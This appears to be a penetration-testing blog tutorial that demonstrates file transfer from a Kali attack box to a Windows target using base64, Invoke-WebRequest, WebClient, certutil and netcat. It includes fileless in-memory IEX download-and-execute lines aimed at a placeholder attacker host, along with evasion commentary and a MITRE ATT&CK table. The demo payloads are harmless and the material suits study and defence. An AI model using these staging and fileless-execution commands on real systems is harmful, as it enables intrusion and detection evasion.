# File Transfer Techniques


## Introduction
During penetration testing and red team engagements, transferring files between the attacker and target systems is a routine yet critical task. File transfer techniques are commonly used for post-exploitation activities such as payload delivery, tool staging, data exfiltration, and lateral movement. However, different environments impose different constraints restricted shells, proxy controls, antivirus, EDR, or limited tooling making it essential for a penetration tester to understand multiple file transfer methods.

This blog demonstrates practical file transfer techniques using both traditional and fileless approaches, focusing on realism and operational relevance. Each method is demonstrated using two machines:<br>
    - Kali Linux – Attack Box<br>
    - Windows 10 – Target Machine

The goal is to understand how files can be transferred, executed, or reconstructed, and why attackers choose specific techniques in real-world scenarios.

## Demo File
We start by creating a simple demo file on the attack box:
 ```
 echo "This is a random file generated\nToday we will practice file transfer methods...\nMultiple techniques will be analyzed..." > demof.txt
```


This file will be transferred using multiple techniques throughout this blog.

## 1.  Base64 String Transfer
Base64 transfer encodes files as text to bypass binary transfer restrictions. It's used in post-exploitation scenarios with limited access (command shells, web forms, SQL injection). Simple but easily detectable, so it's a fallback method.
### Encode File on AttackBox
```
cat demof.txt | base64 -w 0; echo
```
##### Example Output:
```
VGhpcyBpcyBhIHJhbmRvbSBmaWxlIGdlbmVyYXRlZApUb2RheSB3ZSB3aWxsIHByYWN0aWNlIGZpbGUgdHJhbnNmZXIgbWV0aG9kcy4uLgpNdWx0aXBsZSB0ZWNobmlxdWVzIHdpbGwgYmUgYW5hbHl6ZWQuLi4K
```


### Decode and Rebuild File on Target (PowerShell)
```
[IO.File]::WriteAllBytes("C:\Users\hakr\Desktop\demof.txt", [Convert]::FromBase64String("VGhpcyBpcyBhIHJhbmRvbSBmaWxlIGdlbmVyYXRlZApUb2RheSB3ZSB3aWxsIHByYWN0
aWNlIGZpbGUgdHJhbnNmZXIgbWV0aG9kcy4uLgpNdWx0aXBsZSB0ZWNobmlxdWVzIHdpbGwgYmUgYW5hbHl6ZWQuLi4K"))
```



## 2. Invoke-WebRequest (IWR)
Invoke-WebRequest (IWR) is a PowerShell cmdlet commonly used to download files over HTTP/HTTPS during initial tool staging after code execution. It's reliable and default on modern Windows, but well-monitored and likely to trigger alerts in hardened environments. Best suited for low-restriction or internal networks.
### Host File on Attack Box
```
python3 -m http.server 8000
```

### Download on Target Machine
```
Invoke-WebRequest "http://ATTACKBOX_IP:8000/demof.txt" -OutFile "C:\Users\hakr\Desktop\demof_iwr.txt"
```



## 3. WebClient DownloadFile
The .NET WebClient class is a quieter alternative to Invoke-WebRequest for downloading files. It uses native .NET functionality, executes faster, and generates fewer alerts. It supports HTTP, HTTPS, and FTP, making it preferred when PowerShell logging is enabled or on older PowerShell versions.
```
(New-Object Net.WebClient).DownloadFile("http://ATTACKBOX_IP:8000/demof.txt", "C:\Users\hakr\Desktop\demof_webclient.txt")
```

This method works across PowerShell versions and supports HTTP, HTTPS, and FTP.


## 4. Fileless In-Memory Execution
Fileless execution downloads and runs payloads directly in memory without writing to disk. This reduces forensic artifacts and evades file-based antivirus detection. While not invisible, it increases stealth by minimizing disk I/O and persistence artifacts, making it popular with advanced threat actors against EDR systems.

### Payload Creation (Attackbox)
```
Write-Output "[+] Fileless execution successful."
```


### Execute Directly in Memory (Victim Machine)
#### Using Invoke-WebRequest
```
IEX (Invoke-WebRequest "http://ATTACKBOX_IP:8000/payload.ps1" -UseBasicParsing)
```


#### Using WebClient (Stealthier)
```
IEX (New-Object Net.WebClient).DownloadString("http://ATTACKBOX_IP:8000/payload.ps1")
```

Using these methods no file is written to disk & the payload is downloaded and executed entirely in memory.

## 5. LOLBIns - Certutil
Living-off-the-land binaries (LOLBins) are legitimate system tools abused for malicious purposes. Certutil, a Windows certificate management utility, can download remote files and is often whitelisted. Attackers use it to blend malicious activity with legitimate operations, evading detection in poorly monitored environments.
```
certutil -urlcache -split -f http://ATTACKBOX_IP:8000/demof.txt demof_crtu.txt
```


Why it matters:
- Trusted Windows binary
- Often allowed through firewalls
- Frequently abused in real-world attacks


## 6. Netcat File Transfer
Netcat is a lightweight networking utility for reading and writing data across network connections. It's commonly used for file transfers, reverse shells, and port relays during penetration testing. It's useful in restricted environments where HTTP is blocked but raw TCP is allowed, and works reliably on constrained systems. <br>
For this lets bootup another linux machine (Ubuntu Server).
### Target (Listening)
```
nc -lvp 4444 > demof_nc.txt
```
### Attack Box (Sending)
```
nc -q 0 TARGET_IP 4444 < demof.txt
```

Netcat works even in minimal shells and is highly flexible.

## 7. Protected File Transfer
In real-world penetration testing scenarios, transferring sensitive data in plaintext can expose its contents to network inspection, logging, or interception. To mitigate this risk, files should be encrypted before transfer and decrypted on the destination system.

A practical and commonly used approach on Windows systems is using an AES-based PowerShell encryption script, such as `Invoke-AESEncryption`.
### Encrypt File Before Transfer (on Attack Box)
```
Invoke-AESEncryption -Mode Encrypt -Key "P@ssw0rd" -Path ./demof.txt
```

### Decrypt File on Target Machine (on Victim Machine)
```
Invoke-AESEncryption -Mode Decrypt -Key "P@ssw0rd" -Path .\demofaes.txt.aes
```


# MITRE ATT&CK Mapping
The following table maps each demonstrated file transfer technique to the relevant MITRE ATT&CK techniques and tactics, highlighting how adversaries transfer, stage, execute, and protect payloads during post-exploitation activities.<br>

### ATT&CK Technique Mapping
| Technique Demonstrated               | ATT&CK ID | ATT&CK Technique                              | ATT&CK Tactic       | Description                                                                                                                      |
| ------------------------------------ | --------- | --------------------------------------------- | ------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| Base64 String Encoding               | T1132.001 | Data Encoding: Standard Encoding              | Command and Control | Files are encoded into Base64 to safely transmit data through restricted channels such as shells, forms, or injection points.    |
| Base64 Reconstruction via PowerShell | T1059.001 | Command and Scripting Interpreter: PowerShell | Execution           | PowerShell is used to decode Base64 data and reconstruct the original file on the target system.                                 |
| Invoke-WebRequest File Download      | T1105     | Ingress Tool Transfer                         | Command and Control | Tools and files are downloaded from attacker-controlled infrastructure using native PowerShell functionality.                    |
| WebClient DownloadFile               | T1105     | Ingress Tool Transfer                         | Command and Control | Files are retrieved using the .NET WebClient class, offering faster execution and reduced logging compared to Invoke-WebRequest. |
| Fileless In-Memory Execution (IEX)   | T1059.001 | Command and Scripting Interpreter: PowerShell | Execution           | PowerShell executes attacker-controlled scripts directly in memory without writing files to disk.                                |
| Fileless Payload Delivery            | T1027     | Obfuscated/Compressed Files or Information    | Defense Evasion     | Disk-based artifacts are avoided, reducing forensic evidence and bypassing file-based detection mechanisms.                      |
| Certutil File Download (LOLBins)     | T1105     | Ingress Tool Transfer                         | Command and Control | Certutil is abused to download files while blending malicious activity with legitimate system operations.                        |
| Certutil Abuse                       | T1218     | Signed Binary Proxy Execution                 | Defense Evasion     | A trusted, signed Windows binary is leveraged to proxy malicious behavior and evade security controls.                           |
| Netcat File Transfer (TCP)           | T1105     | Ingress Tool Transfer                         | Command and Control | Files are transferred over raw TCP connections, bypassing traditional HTTP-based monitoring.                                     |
| Netcat Bidirectional Data Transfer   | T1041     | Exfiltration Over C2 Channel                  | Exfiltration        | Netcat enables two-way data movement, supporting both tool staging and data exfiltration.                                        |
| AES-Encrypted File Transfer          | T1027     | Obfuscated/Compressed Files or Information    | Defense Evasion     | Files are encrypted prior to transfer, preventing content inspection and analysis.                                               |
| Encrypted Transport Channel          | T1573     | Encrypted Channel                             | Command and Control | Encrypted communication channels are used to conceal payload contents during transfer.                                           |


# Conclusion
Understanding multiple file transfer techniques is essential for realistic penetration testing. Different environments demand different approaches, and effective operators adapt quickly. From basic HTTP downloads to encrypted fileless execution, these techniques demonstrate how attackers move tools and data while minimizing detection.

##### A supporter is worth a thousand followers! [Buy Me a Coffee](https://www.buymeacoffee.com/dx73r). If you like this blog, follow me on [GitHub](https://github.com/dx7er) and [LinkedIn](https://www.linkedin.com/in/naqvio7/). 
